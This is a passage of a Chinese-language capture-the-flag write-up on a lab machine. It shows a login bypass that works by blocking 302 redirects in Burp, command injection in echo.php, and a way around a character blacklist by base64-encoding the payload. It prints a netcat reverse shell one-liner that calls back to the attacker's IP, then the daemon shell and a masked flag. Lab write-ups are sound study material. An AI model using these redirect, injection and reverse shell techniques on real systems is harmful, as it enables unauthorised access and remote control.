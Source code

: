 到这里又卡住了，因为我发现前面的登录都是白瞎，后台甚至不用登录都能访问，js未被正常加载

这些问题在开头就引起我的注意了，但我没有去理会，现在我尝试登录管理员账号，登录结果与之前的一样，我知道，麻烦来了

最后我没办法，根本不知道这靶机怎么个回事，只好看wp了

    http://10.10.195.127/echo.php?search=

这里可以执行命令

**早知道在前面使用gobuster根目录的时候加上 -x php 了**

## 对与错，不是绝对的 - 峰回路转

**虽然我前面所作的一切貌似都有问题，但是这也让我意外的发现**

**只要我们使用burp禁止302跳转，我们就可以越权访问任何页面！！！**

为什么这么说，因为当我关掉burp抓包之后，我发现echo.php跳转到了login.html

**但是神奇的是，echo.php的页面内容已经包含在了响应当中，只要我们禁止302跳转，浏览器即可正常解析渲染出来该页面内容**

这也就是为什么之前我能够进入后台，其实我之前压根没登录成功，只是因为我禁止了302跳转

## Reverse shell

好，我们继续使用我刚刚的方法禁止302跳转

继续越权访问echo.php

    You really think this is gonna be possible i fixed this @Deadalus -_- !!!? 

有黑名单

题目有提示：

    this is the regex used: /[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/

将payload进行base64:

    echo 'mkfifo /tmp/f1;nc 10.14.39.48 8888 < /tmp/f1 | /bin/bash > /tmp/f1;' | base64

这里要把等号删掉，因为已经过滤了等号

    payload:| echo <b64 code> | base64 -d | bash

开启nc监听

成功getshell

    daemon@labyrinth:/opt/lampp/htdocs$ id    
    id
    uid=1(daemon) gid=1(daemon) groups=1(daemon)

user.txt:

    daemon@labyrinth:/opt/lampp/htdocs$ cat /home/user/flag.txt
    cat /home/user/flag.txt
    fla9{5upe********laG}

## 寻找缺失的flag2

